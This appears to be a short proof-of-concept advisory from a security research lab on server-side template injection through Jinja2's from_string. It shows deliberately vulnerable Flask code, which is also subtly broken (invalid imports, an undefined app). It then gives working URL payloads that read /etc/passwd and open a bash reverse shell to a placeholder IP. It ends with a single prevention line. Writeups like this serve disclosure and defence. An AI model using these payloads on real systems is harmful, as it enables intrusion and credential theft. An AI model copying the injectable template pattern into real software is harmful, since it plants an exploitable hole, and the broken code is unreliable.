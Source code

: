 <a href="https://ordina.nl" target="_blank"><img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRBTgtBKmWL2i-76KccY9u0mrxAF9i0bPAJasA2YYeapgsL02AGlg" 
alt="Ordina  Research Lab" width="240" text-align="center" height="180" border="10" /></a>

#Jinja2 Command injection from_string function <br />
#Website: Ordina.nl <br />
Author: Jameel Nabbo   <br />
Email: jameel.nabbo[at]ordina.nl   <br />

// from_string function is prone to SSTI where it takes the "source" parameter as a template object and render it and then return it.


//here's an example about the vulnerable code that uses from_string function in order to handle a variable in GET called 'username' and returns Hello {username}:

```python

import Flask
import request
import Jinja2


@app.route("/")
def index():
	username = request.values.get('username')
	return Jinja2.from_string('Hello ' + username).render()


if __name__ == "__main__":
	app.run(host='127.0.0.1' , port=4444)

```


<b>POC</b>
//Exploiting the username param
http://localhost:4444/?username={{4*4}} <br />
OUTPUT: Hello 16

Reading the /etc/passwd <br />

http://localhost:4444/?username={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }} <br />


Getting a reverse shell 
http://localhost:4444/?username={{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }}


How to prevent it:
Never let the user provide template content.
